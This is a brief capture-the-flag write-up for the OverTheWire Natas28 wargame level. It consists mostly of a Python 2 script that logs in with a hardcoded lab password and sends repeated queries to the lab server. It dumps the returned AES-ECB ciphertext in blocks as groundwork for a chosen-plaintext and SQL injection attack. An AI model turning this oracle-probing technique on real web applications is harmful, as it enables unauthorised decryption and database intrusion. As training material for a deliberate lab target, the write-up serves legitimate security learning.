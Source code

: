 # Natas28

Ataque de texto plano elegido en modo AES-ECB e inyección SQL
~~~
import httplib,sys,binascii
from base64 import b64encode,b64decode
from urllib import quote,unquote

def check(query):
query=quote(query)
httpClient = None
try:
userAndPass = b64encode(b”natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF”).decode(“ascii”)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’}
httpClient = httplib.HTTPConnection(‘natas28.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?query=’+query, headers=headers)
response = httpClient.getresponse()
#responseData = response.read()
result = response.getheader(‘Location’)
return binascii.b2a_hex(b64decode(unquote(result[result.find(‘query=’)+6:])))
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def outputhex(str):
i=0
newStr=”
for c in str:
i+=1
if i%32==0:
newStr+=c+’ ‘
else:
newStr+=c
print newStr

def xorInside(str1,str2):
first=str1.decode(‘hex’)
second=str2.decode(‘hex’)
newStr=”
for i in range(0,16):
newStr+= chr(ord(first[i])^ord(second[i]))
return binascii.b2a_hex(newStr)

def autocheck():
a=”
b=”
for i in range(1,80):
a+=’a’
b+=’b’
outputhex(check(a))
outputhex(check(b))

autocheck()
~~~
